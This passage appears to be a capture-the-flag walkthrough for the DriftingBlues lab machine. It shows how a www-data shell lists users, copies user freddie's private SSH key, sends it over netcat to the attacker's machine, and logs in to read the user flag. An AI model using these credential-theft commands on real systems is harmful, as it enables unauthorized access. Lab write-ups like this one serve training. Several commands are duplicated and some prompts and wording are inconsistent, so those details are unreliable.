

4.2 Get access as an user (First flag)
1. Show the users.
www-data@driftingblues:/$cat /etc/passwd
Output:
There's an user called “freddie”.
2. You need to access via SSH with this user. Run the following commands.
www-data@driftingblues:/$cd /home/freddie
www-data@driftingblues:/home/freddie$ls -al
www-data@driftingblues:/home/freddie$ls -al
Output:

There's an “user.txt” file but you can read it because you haven't logged in as
freddie.3. Get the “id_rsa” file to connect with “netcat”.
a) On your Kali Machine run.
$nc -lnvp 9999 > id_rsa
Output:
b) On the victim's machine run.
www-data@driftingblues:/home/freddie$cd .ssh
www-data@driftingblues:/home/freddie$cp id_rsa /tmp
www-data@driftingblues:/home/freddie$cd /tmp
www-data@driftingblues:/home/freddie/tmp$nc 192.168.12.10 9999 < id_rsa
www-data@driftingblues:/home/freddie$cp id_rsa /tmp
www-data@driftingblues:/home/freddie$cd /tmp
www-data@driftingblues:/home/freddie/tmp$nc 192.168.12.10 9999 < id_rsa
You have the “id_rsa” file on your Kali Machine
4. Change the permissions of “id_rsa” file on your Kali Machine.
$chmod 400 id_rsa
5. Connet via SSH.
$ssh freddie@192.168.12.42 -i id_rsa
Output:
6. Show the flag.
freddie@driftingblues:~$cat user.txt
Output: